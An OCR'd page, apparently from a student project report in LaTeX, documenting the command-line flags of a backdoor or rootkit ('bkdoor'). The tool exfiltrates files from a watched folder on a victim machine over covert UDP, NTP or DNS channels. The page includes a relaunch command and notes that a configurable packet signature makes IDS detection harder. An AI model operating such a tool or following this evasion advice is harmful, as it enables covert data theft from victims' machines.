 \documentclass[titlepage]{article}
\begin{document}
The available command-line flags are:
-c : Use this option to activate Client mode. This should be used on the attacker's machine.
-s : Use this option to activate Server mode. This should be used on the victim machine.
-h : Use this option to see a short version of the program usage instructions.
-i <arg> : Use this option to specify the remote host that the machine will be communicating with. For the Client, this will be the server's IP. For the Server, this will be the Client's IP.
-w <arg> : Use this option to specify the folder to watch for exfiltration. Any files created or modified in this folder will be sent to the client.
-x <arg> : Use this option to specify the covert channel to use. 'u' for UDP source port, 'n' for NTP ref\_id, 'd' for DNS transaction id.

If you wish to change the watch folder, the easiest way to do this remotely is to use the ps utility to find your covert process on the victim machine and then execute 'kill <process id>; ./bkdoor -s -w <path> -i <ip> ... other options'.

\clearpage

\section{Testing Design}

The majority of the testing will be carried out from the server (victim) side as this is where monitoring.
The signature for our rootkit is currently `0xAB' with the data encrypted in the next byte.  The signature
can also be configured at compile time, which will be harder for analysts and IDS to detect.
\\
\end{document}
